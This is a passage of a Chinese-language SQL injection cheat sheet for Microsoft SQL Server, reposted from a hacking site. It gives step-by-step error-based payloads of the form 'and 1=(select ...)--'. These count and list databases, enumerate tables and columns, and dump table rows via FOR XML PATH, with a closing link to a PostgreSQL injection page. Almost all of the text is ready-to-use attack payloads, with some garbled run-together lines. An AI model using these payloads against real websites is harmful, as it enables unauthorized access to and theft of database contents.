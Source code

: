 ##### **③**获取所有数据库的个数 (以下3条语句可供选择使用)

1. `and 1=(select quotename(count(name)) from master..sysdatabases)--`

2. `and 1=(select cast(count(name) as varchar)%2bchar(1) from master..sysdatabases) --`

3. `and 1=(select str(count(name))%2b'|' from master..sysdatabases where dbid>5) --`

  `and 1=(select str(count(name))%2b'|' from master..sysdatabases where dbid>5) --`

  `and 1=(select cast(count(name) as varchar)%2bchar(1) from master..sysdatabases where dbid>5) --`

说明：dbid从1-4的数据库一般为系统数据库.

##### **④**获取数据库 （该语句是一次性获取全部数据库的，且语句只适合数据库版本>=2005，两条语句可供选择使用）

​    `and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--`

​    `and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--`

##### ⑤获取当前数据库

`and db_name()>0`

`and 1=(select db_name())--`

##### **⑥**获取当前数据库中的表（有2个语句可供选择使用）【下列语句可一次爆数据库所有表（只限于  mssql2005及以上版本）】

   ` and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))-- `

​     `and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U'  FOR XML PATH(''))--`

##### **⑦**获得表里的列

一次爆指定表的所有列（只限于mssql2005及以上版本）：

​     `and 1=(select quotename(name) from 数据库名..syscolumns where id =(select  id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))-- `

​     `and 1=(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select  id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--`

##### ⑧获取指定数据库中的表的列的数据库

逐条爆指定表的所有字段的数据（只限于mssql2005及以上版本）：

​    `and 1=(select top 1 * from 指定数据库..指定表名 where排除条件 FOR XML PATH(''))--`

一次性爆N条所有字段的数据（只限于mssql2005及以上版本）：

​     `and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--复制代码第一条语句：and  1=(select top 1 * from 指定数据库..指定表名 FOR XML  PATH(''))--`测试效果图：----------------------------------加上where条件筛选结果出来会更加好，如：where  and name like '%user%' 就会筛选出含有user关键词的出来。用在筛选表段时很不错。

转自：http://www.myhack58.com/Article/html/3/8/2015/63146.htm

### PostgreSQL注入

https://www.webshell.cc/524.html
